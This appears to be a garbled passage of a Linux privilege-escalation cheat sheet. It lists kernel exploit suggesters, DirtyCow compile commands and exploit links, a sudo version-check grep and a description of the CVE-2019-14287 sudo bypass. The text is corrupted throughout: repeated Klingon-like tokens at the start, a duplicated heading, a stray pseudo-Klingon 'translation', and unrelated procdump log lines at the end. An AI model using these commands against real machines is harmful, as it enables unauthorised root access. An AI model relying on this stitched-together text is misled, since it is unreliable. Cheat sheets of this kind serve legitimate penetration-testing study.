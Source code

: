**yIqaw** **'e'** **'ej** **'oH** **yIqaw** **'e'** **'ej** **'oH** **yIqaw** **'e'** **'ej** **'oH** **yIqaw** **'e'** **'ej** **'oH** **yI
```bash
curl https://raw.githubusercontent.com/lucyoa/kernel-exploits/master/README.md 2>/dev/null | grep "Kernels: " | cut -d ":" -f 2 | cut -d "<" -f 1 | tr -d "," | tr ' ' '\n' | grep -v "^\d\.\d$" | sort -u -r | tr '\n' ' '
```
Tools that could help to search for kernel exploits are:

[linux-exploit-suggester.sh](https://github.com/mzet-/linux-exploit-suggester)\
[linux-exploit-suggester2.pl](https://github.com/jondonas/linux-exploit-suggester-2)\
[linuxprivchecker.py](http://www.securitysift.com/download/linuxprivchecker.py) (execute IN victim,only checks exploits for kernel 2.x)

Always **search the kernel version in Google**, maybe your kernel version is written in some kernel exploit and then you will be sure that this exploit is valid.

### CVE-2016-5195 (DirtyCow)

Linux Privilege Escalation - Linux Kernel <= 3.19.0-73.8
```bash
# make dirtycow stable
echo 0 > /proc/sys/vm/dirty_writeback_centisecs
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow 40847.cpp -lutil
https://github.com/dirtycow/dirtycow.github.io/wiki/PoCs
https://github.com/evait-security/ClickNRoot/blob/master/1/exploit.c
```
### Sudo version

Based on the vulnerable sudo versions that appear in:

### Sudo version

Based on the vulnerable sudo versions that appear in:
```bash
searchsploit sudo
```
**You can check if the sudo version is vulnerable using this grep.**

**tlhIngan Hol translation:**

**ghItlhvam sudo version lo'laHbe'chugh, 'ej vaj grep vItlhutlh.**
```bash
sudo -V | grep "Sudo ver" | grep "1\.[01234567]\.[0-9]\+\|1\.8\.1[0-9]\*\|1\.8\.2[01234567]"
```
#### sudo < v1.28

QaHbe' @sickrov

---

#### CVE-2019-14287

##### Description

In sudo before 1.8.28, an attacker with access to a Runas ALL sudoer account can bypass certain policy blacklists and session PAM modules, and can cause incorrect logging, by invoking sudo with a crafted user ID. For example, this allows bypass of !root configuration, and USER= logging, for a "sudo -u \#$((0xffffffff))" command.


[20:20:58 - WARN]: Procdump not running with elevated credentials. If your uid does not match the uid of the target process procdump will not be able to capture memory dumps
[20:20:58 - INFO]: Timed:
[20:21:00 - INFO]: Core dump 0 generated: ./sleep_time_2021-11-03_20:20:58.1714